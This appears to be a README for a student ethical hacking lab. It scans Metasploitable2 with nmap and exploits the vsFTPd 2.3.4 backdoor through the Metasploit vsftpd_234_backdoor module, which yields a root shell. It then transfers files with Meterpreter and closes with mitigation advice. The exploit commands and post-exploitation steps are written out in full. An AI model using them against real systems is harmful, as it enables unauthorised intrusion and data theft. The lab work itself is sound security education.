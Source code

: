 # 🔐 System Hacking – Gaining Access to a Vulnerable Machine

## 🧠 Objective
This ethical hacking project simulates a real-world exploitation scenario where a penetration tester targets a vulnerable system (Metasploitable2) using the Metasploit Framework. The objective is to identify susceptible services, exploit them, gain shell access, escalate privileges, and demonstrate basic post-exploitation actions.

---

## 🛠️ Tools Used

- **Kali Linux**
- **Metasploit Framework**
- **Metasploitable2 (vulnerable target machine)**
- `nmap`, `whoami`, `uname`, `ls`, and other Linux commands

---

## 🛰️ Scanning and Enumeration

**1) General nmap scan (to feel around)**
```bash
nmap <target-IP>
```

![Nmap Scan](images/nmap-scan.png)

**2) Detailed nmap scan to see services and versions**
- Discovered open port: `21/tcp` (FTP)
- Service detected: `vsFTPd 2.3.4` — a known vulnerable service with a backdoor.

```bash
nmap -A -sV <target-IP>
```

![Nmap Scan2](images/nmap-version-scan1.png)
![Nmap Scan2](images/nmap-version-scan2.png)
![Nmap Scan2](images/nmap-version-scan3.png)

---

## 💣 Exploitation Process

**1) Exploit Module Used:**

```
exploit/unix/ftp/vsftpd_234_backdoor
```

![Search Exploit](images/search-exploit.png)


**2) Metasploit Commands:**

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <target-IP>
set RPORT 21
run
```

📍 Successfully spawned a root-level shell:
```
[*] Command shell session 1 opened
```

![Exploit](images/exploit.png)

---

## 🧪 Post-Exploitation

- Verified root access with `whoami` → `root`

![Exploit](images/verify-root-access.png)

- Navigated file system, listed directories

![Exploit](images/file-navigation.png)

- Transferred files from attacker to victim using Meterpreter `upload` command

![Exploit](images/upload1.png)

- Downloaded victim's files back to Kali using `download` command

---

## ⚠️ Challenges Faced & Resolutions

| Challenge | Solution |
|----------|----------|
| No internet access in Kali VM | Switched VM network adapter from Host-Only to NAT |
| Metasploit exploit failed to recreate session after closing | Rebooted Metasploitable2 to restart vulnerable FTP service |
| Upload error in normal shell | Upgraded to Meterpreter for advanced file interaction |
| Difficulty identifying active sessions | Used `sessions -i <id>` instead of `sessions` |
| Command confusion between shell and Meterpreter | Ensured proper shell upgrade and command context awareness |

---

## ✅ Result/Outcome

Successfully gained root-level access to the target machine, demonstrated file transfer techniques post-exploitation, and documented how to secure systems against such attacks.

---

## 🛡️ Mitigation Recommendations

To prevent exploitation of similar vulnerabilities in a production environment:

- Always keep services and operating systems updated.
- Replace outdated or unsupported software.
- Disable unnecessary services and ports.
- Use firewalls to control inbound/outbound traffic.
- Enforce least privilege and proper user access controls.
- Regularly scan systems for known vulnerabilities.

---

## 🧠 Author
Francis Uramah

Date created: 24/04/2025
